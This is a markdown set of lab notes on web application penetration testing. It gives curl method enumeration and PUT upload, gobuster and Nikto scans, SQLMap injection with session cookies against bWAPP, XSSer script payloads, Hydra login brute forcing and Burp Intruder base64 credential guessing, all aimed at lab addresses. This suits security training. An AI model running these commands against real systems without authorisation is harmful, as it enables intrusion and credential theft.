# Web application

### Introduction

* A website is juste files on a server with HTML, CSS and JavaScript.
* The webservers are Apache, TomCat, Nginx, Microsoft IIS.
* The Off-premise hosting are Amazon web services, WordPress, Firebase, Microsoft Azure, DigitalOcean, Cloudflare, INE etc.

### HTTP method enumeration

```bash
kali@kali> curl -X OPTIONS 192.202.65.3 -v
kali@kali> curl -X GET 192.202.65.3
kali@kali> curl -X HEAD 192.202.65.3
kali@kali> curl -X PUT 192.202.65.3  # method not allowed

kali@kali> curl -X OPTIONS 192.202.65.3/login.php -v
kali@kali> curl -X POST 192.202.65.3/login.php
kali@kali> curl -X POST 192.202.65.3/login.php -d "name=john&password=password" -v

kali@kali> curl -X OPTIONS 192.202.65.3/uploads/ -v
# OPTIONS,GET,HEAD,POST,DELETE,TRACE,PROPFIND
# PROPPATCH,COPY,MOVE,LOCK,UNLOCK
kali@kali> echo "Hello World!" > hello.txt
kali@kali> curl 192.202.65.3/uploads/ --upload-file hello.txt
```

It uploads a file onto the web server because the PUT is allowed.

### Gobuster

```bash
kali@kali> gobuster dir -u http://192.193.74.3 -w /usr/share/wordlists/dirb/common.txt -b 403,404
kali@kali> gobuster dir -u http://192.193.74.3 -w /usr/share/wordlists/dirb/common.txt -b 403,404 -x .php,.xml,.txt -r
kali@kali> gobuster dir -u http://192.193.74.3/data -w /usr/share/wordlists/dirb/common.txt -b 403,404 -x .php,.xml,.txt -r
kali@kali> curl http://192.193.74.3/data/account.xml
```

### BurpSuite directory enumeration

Start Burp Suite and capture the packet from http://192.168.23.3.

<figure><figcaption></figcaption></figure>

Then move the request to the intruder and add the wordlist `/usr/share/wordlists/dirb/common.txt` and **attack**.

### ZAProxy

<figure><figcaption></figcaption></figure>

### Nikto

```bash
kali@kali> nikto http://192.19.125.3
```

<figure><figcaption></figcaption></figure>

### SQLMap

<figure><figcaption></figcaption></figure>

* Connect to bwap with credentials `bee:bug`.
* Grab the cookie by inspecting the GET request for http://192.222.140.3/portal.php (bd8t5qipab8p64f85oitd9f5f5)
* Go to http://192.222.140.3/sqli\_1.php and enter something in the form to research in the database. The url will be http://192.222.140.3/sqli\_1.php?title=john\&action=search.

```bash
kali@kali> sqlmap -u 'http://192.222.140.3/sqli_1.php?title=john&action=search' --cookie 'PHPSESSID=bd8t5qipab8p64f85oitd9f5f5; security_level=0' -p title
kali@kali> sqlmap -u 'http://192.222.140.3/sqli_1.php?title=john&action=search' --cookie 'PHPSESSID=bd8t5qipab8p64f85oitd9f5f5; security_level=0' -p title --dbs
kali@kali> sqlmap -u 'http://192.222.140.3/sqli_1.php?title=john&action=search' --cookie 'PHPSESSID=bd8t5qipab8p64f85oitd9f5f5; security_level=0' -p title -D bWAPP tables
```

The parameter **title** is vulnerable and the payload are displayed.

For the POST request, store the request in a file `request` then execute the next command.

```bash
kali@kali> sqlmap -r request -t title
```

### XSSer

* Go to http://192.69.131.3/index.php?page=dns-lookup.php.
* Turn on BurpSuite.
* Capture the packet.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

```bash
kali@kali> xsser --url http://192.69.131.3/index.php?page=dns-lookup.php -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'
```

<figure><figcaption></figcaption></figure>

```bash
kali@kali> xsser --url http://192.69.131.3/index.php?page=dns-lookup.php -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp '<script>alert(1)</script>'
```

<figure><figcaption></figcaption></figure>

Copy/paste the **Final attack** to BurpSuite then run and you will have a JavaScript alert.

### Authenticated XSSer

```bash
kali@kali> xsser --url 'http://192.194.74.3/htmli_get.php?firstname=XSS&lastname=doe&form=submit' --cookie 'PHPSESSID=83rlkqf374baia021e64usk9e2; security_level=0'
kali@kali> xsser --url 'http://192.194.74.3/htmli_get.php?firstname=XSS&lastname=doe&form=submit' --cookie 'PHPSESSID=83rlkqf374baia021e64usk9e2; security_level=0' --Fp '<script>alert(0)</script>'
```

<figure><figcaption></figcaption></figure>

### HTTP Login form with Hydra

```bash
kali@kali> hydra -L users -P passwords 192.107.115.3 http-post-form '/login.php:login=^USER^&password=^PASS^&security_level=0&form=submit:Invalid credentials or user not activated!'
```

### Basic auth BurpSuite

* Go to http://192.89.33.3/basic and you will need to authenticate by a form.
* Open BurpSuite and catch the form request.

<figure><figcaption></figcaption></figure>

The `Authorization` is base64 encoded.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

* Add a wordlist `/root/desktop/wordlists/common_password.txt`
* Add 2 rules
  * Prefix `admin:` (we suppose that we know the username)
  * Encode in `base64`

After running the attack, we can see a status code 301, try to base64 decode it and you get credentials `admin:cookie1`. If you try these in the form, you get redirected to the flag page.
